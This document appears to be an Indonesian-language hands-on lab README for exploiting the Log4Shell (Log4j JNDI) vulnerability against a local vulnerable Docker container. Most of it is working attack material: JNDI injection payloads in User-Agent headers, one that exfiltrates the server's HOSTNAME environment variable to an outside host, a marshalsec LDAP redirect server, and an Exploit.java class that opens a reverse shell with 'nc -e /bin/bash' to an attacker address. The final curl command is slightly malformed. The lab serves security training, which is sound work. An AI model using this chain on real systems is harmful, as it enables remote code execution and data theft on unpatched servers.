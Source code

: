 # Lab4Exploit

## Requirements:
- Linux disarankan Kali/Ubuntu
- Docker
```sh
# install docker
sudo apt install docker.io
sudo systemctl enable docker --now

# masukkan user ke dalam docker gruup
sudo usermod -aG docker $USER

# logout akun kemudian login kembali
```

- Java, Java Compiler dan Java Web Start versi 8 (untuk eksploitasi). Melihat versi Java:
```sh
sudo update-alternatives --config java
sudo update-alternatives --config javac
sudo update-alternatives --config javaws
```

- Installasi Java
```sh
sudo apt install default-jdk
```

- Installasi Maven
```sh
sudo apt install maven
```

- Marshalsec
```sh
git clone https://github.com/mbechler/marshalsec

cd marshalsec

mvn clean package -DskipTests

```

## Persiapan
Setup Vulnerable Server
```sh
# ambil dan build dockerfile
git clone https://github.com/leonjza/log4jpwn.git
docker build -t log4jpwn .

# jalankan dockerfile yang sudah dib-uild
docker run --rm -p8080:8080 log4jpwn
```


## Reconnaissance
Buka URL http://localhost:8080 pada browser.

> Website ini melakukan logging terhadap user-agent, path, dan parameter pwn.
> Untuk PoC pada proses logging user-agent, kamu dapat menggunakan curl

Buka URL dengan menggunakan curl
```sh
curl -v http://localhost:8080

curl -v -H 'User-Agent: Internet Explorer' http://localhost:8080
```
> Lihat interaksi yang kamu lakukan dengan Log4j pada server

**PoC 1**
Buka tab baru dan buka necat listener
```sh
nc -lnvp 1234
```

Alamat listener dapat dilihat pada `ifconfig` dan mengacu pada interface Docker0.
```sh
curl -v -H 'User-Agent: ${jndi:ldap://ALAMAT_LISTENER:1234}' http://localhost:8080
```
**PoC2**
Buka https://log4shell.huntress.com
```sh
curl -v -H 'User-Agent: ${jndi:ldap://log4shell.huntress.com:1389/ID}' http://localhost:8080
```

Data exfiltration
```sh
curl -v -H 'User-Agent: ${jndi:ldap://log4shell.huntress.com:1389/hostname=${env:HOSTNAME}/ID}' http://localhost:8080/
```

## Eksploitasi
Menggunakan Java unmarshaller security, membuat code execution.
```sh
cd marshalsec

# jalankan ldap exploit server
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://YOUR.ATTACKER.IP.ADDRESS:8000/#Exploit"
```

File Exploit.java
```java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

Compile file tersebut
```sh
javac Exploit.java -source 8 -target 8
```

Buat HTTP server pada port 8000
```sh
python3 -m http.server
```

Nyalakan listener
```sh
nc -lnvp 9999
```

Eksploit
```sh
curl -H 'User-Agent: {jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:1389/Exploit\} http://localhost:8080
```







